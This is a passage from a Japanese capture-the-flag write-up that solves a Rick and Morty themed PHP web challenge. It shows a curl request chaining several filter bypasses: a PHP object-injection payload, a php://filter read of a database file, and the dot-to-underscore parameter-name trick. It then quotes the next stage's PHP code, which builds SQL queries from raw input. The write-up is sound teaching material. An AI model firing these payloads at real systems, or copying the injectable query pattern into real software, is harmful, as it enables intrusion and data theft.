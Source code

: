 なぜ `sixth_second` とあわせて `sixth second` も一緒に弾いているのか気になり、GET パラメータの扱いについて PHP のドキュメントを調べてみると以下のような記述が見つかりました。

> **注意**:  
> 変数名のドットやスペースはアンダースコアに変換されます。 たとえば `<input name="a.b" />` は `$_REQUEST["a_b"]` となります。
> 
> [PHP: 外部から来る変数 - Manual](https://www.php.net/manual/ja/language.variables.external.php)

`sixth.second=R1cKs_Ung3s5b4L3_P45sw0Rd` なら、`urldecode($_SERVER["QUERY_STRING"])` のチェックは回避した上で `$_GET["sixth_second"]` に `R1cKs_Ung3s5b4L3_P45sw0Rd` が入っているような状況を作ることができそうです。試してみましょう。

```
$ curl --path-as-is -g -X POST 'http://(省略)///?first=pickle_rick&second=47589&third=/dev/fd/11&fourth=O:%2B17:"injection_chambre":3:{s:5:"sprue";s:4:"pass";s:11:"mold_plate1";i:456;s:11:"mold_plate2";R:3;}&sixth=php://filter/resource=ricksecret/db.php&sixth.second=R1cKs_Ung3s5b4L3_P45sw0Rd' -d 'fifth=////////sbin/zramctl'
Where would you find the components of the injection?
```

次に進むことができました。

### `$_GET["seventh"]`
```php
<?php
if (!preg_match("/\.|_|%|regexp|like|\x09| |\x0d|\x0a|\x0b|\/|\*|x|0|r1cks|\(|\)/i", $_GET["seventh"])) {
    $one = "SELECT secret FROM top_secrets WHERE secret='{$_GET["seventh"]}'";
    $two = "SELECT secret FROM top_secrets /*{$_GET["seventh"]}*/";
    $exe_one = $dbms->query($one);
    if ($exe_one->num_rows > 0) {
        $res = $exe_one->fetch_assoc();
        if ($res["secret"] === "r1cks") {
            $exe_two = $dbms->query($two);
            if ($exe_two->num_rows > 0) {
                $res = $exe_two->fetch_assoc();
                if ($res["secret"] === "th3sm4rt3s7") {
                  // …
                }
                else {
                    $dbms->close();
                    die("Oh not again Morty.");
                }
            }
            else {
                $dbms->close();
                die("Maybe somehow close.");
            }
        }
        else {
            $dbms->close();
            die("Wait what's that Morty?");
        }
    }
    else {
        $dbms->close();
        die("That's not even close Morty.");
    }
}
else {
    $dbms->close();
    die("You touched something that you're not supposed to touch.");
}
```
